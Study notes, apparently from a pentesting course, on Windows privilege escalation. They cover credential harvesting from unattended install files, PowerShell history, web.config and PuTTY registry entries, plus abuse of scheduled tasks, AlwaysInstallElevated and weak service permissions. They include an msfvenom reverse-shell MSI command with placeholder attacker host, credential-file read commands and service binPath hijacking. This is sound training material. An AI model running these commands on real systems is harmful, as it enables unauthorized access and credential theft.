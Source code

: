 ```yaml
---
description: Eighteenth section in Jr Penetration Tester learning path.
---
```


# Windows Privilege Escalation

### Introduction

Privilege escalation is usually when you are given access to a host with "user A" and leveraging it to access "user B" by abusing weaknesses in the target. Depending on the situation, the following are notable weaknesses:

* Misconfigurations on Windows services/scheduled tasks
* Excessive privileges assigned to account
* Vulnerable software
* Missing Windows Security Patches

Windows systems typically have two types of users: Administrators who can change any system config paramter and access any file in the system & Standard Users who can perform limited tasks, typically cannot change the system and are limited only to their files.

There are also built-in accounts used by the OS:

* SYSTEM/LocalSystem : used by the OS to perform internal tasks, has full access to files and resources. Higher privileged than Administrators.
* Local Service : default account used to run Windows services with "minimum" privileges, uses anonymous connections over the network.
* Network Service : default account used to run Windows services with "minimum" privileges, uses computer credentials to authenticate through the network.

### Password Harvesting - Unattended Installation

When installing Windows on a large number of hosts, Admins may use Windows Deployment Services which allows a single OS image to be deployed to muiltiple hosts on the network. This is referred to as unattanded installation. These installs require admin accounts for initial setup, which can end up being stored in:

* C:\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

### Password Harvesting - PowerShell History

Whenever a PowerShell command is run, a history is kept in memory. If a user runs a command using a credential directly as part of the command line it can be retrieved by running the following from `cmd.exe`:

<pre><code><strong>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
</strong></code></pre>

If you wanted to run this from within PowerShell, you would replace `%userprofile%` with `$Env:userprofile`.

### Password Harvesting - Saved Windows Credentials

Windows lets you use other users' credentials, the function also gives the option to save the credentials on the system. Running `cmdkey /list` will show saved credentials. You won't be able to see actual passwords but if you see any worth trying you can use: `runas /savecred /user:admin cmd.exe`.

### Password Harvesting - IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installs. The configuration of websites on IIS is stored in a file called `web.config`. Depending on the IIS version, web.config can be found at:

* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

A quick way to find database connection strings in the file is:

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Password Harvesting - Software: PuTTY

PuTTY is an SSH client commonly on Windows systems. Users can store sessions in PuTTY. While it won't let you store an SSH password, it will let you store proxy configurations including cleartext authentication credentials. To retrieve these, you can look in the registry with the following:

```
reg query HKCU:\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

Note that "SimonTatham" is the creator of PuTTY, and the name is part of the registry key path, it should not be replaced with a username.

### Scheduled Tasks

Looking into scheduled tasks may reveal a scheduled task which lost its binary, or is using a modifiable binary. Scheduled tasks can be listed with `schtasks`, and detailed info on a task can be retrieved with `schtasks /query /tn [task_name] /fo list /v`. In the output from this, you are looking for the "Task To Run" and "Run As User" fields. If your current user can modify or overwrite the "Task to Run" then you can replace it with a malicious binary for simple privilege escalation.&#x20;

To check permissions you can run `icacls [file/path]`.

### AlwaysInstallElevated

Windows Installer Files (MSI files) usually run with the privilege level of the user who starts it, however, they can be configured to run with higher privileges from any user account. This method requires two registry values to be set:

* reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
* reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

To exploit this, both need to be set, if both are set then `msfvenom` can be used to generate a malicious `.msi` file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTKR_IP LPORT=ATTKR_PORT -f msi -o scary.msi
```

Once this file has been transferred, you can execute it with:

```
msiexec /quiet /qn /i C:\Windows\Temp\scary.msi
```

### Windows Services

Windows Services are managed by the SCM (Service Control Manager). Each service has an associated executable which is run by the SCM when a service is started. To check a service's configuration you can run `sc qc [service_name]`.

In here, you can see the associated executable specified by BINARY\_PATH\_NAME and the account used to run the service under SERVICE\_START\_NAME. Services have a Discretionary Access Control List (DACL) which indicates who has control over the services. The DACL can be viewed with Process Hacker. All service configurations are stored in the registry under `HKLM\SYSTEM\CurrentControlSet\Services`. Here the executable is under "ImagePath" and the account used to start the service is under "ObjectName", if a DACL is configured it will be under "Security".

### Insecure Permission on Service Executable

If an executable associated with a service has weak permissions allowing an attacker to modify or replace it, then privilege escalation to the service account can be trivial. If you are able to modify a service executable to replace it with a malicious one you can easily get reverse shells to a target. Assigning permissions can be done with: `icacls [file] /grant Everyone:F`.

### Unquoted Service Paths

In Windows Services, an unusual behaviour exists when a service is pointed to an "unquoted" executable. This means that the path of the associated executable isn't quoted to account for spaces on the command. For example, the executable:

```
BINARY_PATH_NAME : "C:\Program Files\Server Process\Server.exe"
```

This executable is quoted correctly, but the executable:

```
BINARY_PATH_NAME : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```

Is not quoted correctly, in the second example, SCM does not know which of the following you want to run:

<table><thead><tr><th width="360">Command</th><th>Argument 1</th><th>Argument 2</th></tr></thead><tbody><tr><td>C:\MyPrograms\Disk.exe</td><td>Sorter</td><td>Enterprise\bin\disksrs.exe</td></tr><tr><td>C:\MyPrograms\Disk Sorter.exe</td><td>Enterprise\bin\disksrs.exe</td><td></td></tr><tr><td>C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe</td><td></td><td></td></tr></tbody></table>

This is due to how command prompt parses commands. Normally, when a command is sent, spaces are used as argument separators unless they are part of a quoted string, meaning the "correct" interpretation of the unquoted command would be `C:\\MyPrograms\\Disk.exe` and the rest are arguments. Instead of failing (like it should), SCM tries to help by searching for binaries like:

1. Search for `C:\\MyPrograms\\Disk.exe` - if it exists, run the program.
2. If not, search for `C:\\MyPrograms\\Disk Sorter.exe` - if it exists, run the program.
3. If not, search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe` and run it. This option is expected to succeed.

If we recreated any of the executables that SCM is looking for and replaced them with a malicious binary, they would execute before the real command. This is only exploitable where a service is installed in a non-default, writable location.

### Insecure Service Permissions

To check a service DACL from command line, you can use Accesschk from Sysinternals:

```
accesschk64.exe -qlc [service_name]
```

If you are able to see that your user group has SERVICE\_ALL\_ACCESS permission then you can reconfigure the service to point to another executable. This can be done with the following command:

```
sc config [service_name] binPath= "C:\Path\To\Scary.exe" obj= LocalSystem
```

Note that any account can be used to run the service, LocalSystem is just an example. Restarting the service will now execute the new, malicious executable.
